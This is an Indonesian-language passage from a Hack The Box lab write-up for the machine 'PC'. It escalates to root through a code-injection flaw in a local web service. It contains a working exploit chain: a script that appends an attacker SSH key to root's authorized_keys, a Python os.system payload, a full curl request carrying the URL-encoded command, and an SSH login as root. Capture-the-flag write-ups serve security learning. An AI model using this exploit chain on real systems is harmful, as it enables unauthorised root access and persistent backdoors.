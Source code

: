 Kita bisa gunakan kerentanan ini untuk mendapatkan akses root. Caranya, kita buat file terlebih dahulu di direktori /tmp.

File **root-pwn.sh**

```
#/bin/bash
mkdir /root/.ssh
touch /root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADx...YlTvNrQ== haibara@htb" | tee -a /root/.ssh/authorized_keys
```

Beri hak akses eksekusi pada file tersebut:

```
chmod +x /tmp/root-pwn.sh
```

Lalu ubah payloadnya agar mengeksekusi script tersebut.

```
pyimport os;os.system("/bin/bash /tmp/root-pwn.sh")
```

Final requests:

```
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8001' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2f%74%6d%70%2f%72%6f%6f%74%2d%70%77%6e%2e%73%68%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8001/flash/addcrypted2'
```

Sekarang kita login ssh ke user root menggunakan key yang sudah kita tanam.

```
ssh -i ~/.ssh/htbkey_rsa root@pc.htb
```

<figure><img src="../../.gitbook/assets/root.png" alt=""><figcaption><p>PC Owned</p></figcaption></figure>

Oke sekian sharing kali ini, semoga bermanfaat.
